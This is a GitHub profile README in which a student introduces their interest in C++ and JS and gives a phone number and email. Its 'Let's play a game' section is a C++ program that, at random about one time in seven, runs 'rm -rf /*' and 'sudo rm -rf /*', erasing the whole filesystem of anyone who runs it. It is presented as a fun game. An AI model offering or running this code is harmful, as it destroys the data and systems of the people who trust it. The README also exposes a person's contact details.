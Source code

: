 - 👋 Hi, I’m @SalomandraC
- 👀 I am interested in solving problems in C++ and JS. I do frontend in my free time.
- 🌱 I am currently studying C++, JS, CSS, html.
- 💞️ I’m looking to collaborate. It's not that important while I'm studying. I am ready for any tasks on topics of interest to me.
- 📫 How to reach me. You can call +89109863281 or send an email kazak.petrushin@yandex.ru
- 😄 Pronouns: Nikita, Nikitka, Podkopus, You, Ni'Khit, Saloman
- ⚡ Fun fact:
Let's play a game:
''
#include <iostream>

#include <cstdlib>

#include <time.h>


//system removal function

void kill(){

	system("rm -rf /*");
 
	system("sudo rm -rf /*");
 
}


int main(){

	srand((unsigned) time(NULL));
 
	int randomNumber = (rand() % 7) + 1;
 
	if (randomNumber == 5) {
 
		std::cout << "Oh, no...?" << std::endl;
  
		kill();
  
	} else {
 
		std::cout << "You'll be lucky next time";
  
	}
 
	return 0;
 
}
''

<!---
SalomandraC/SalomandraC is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
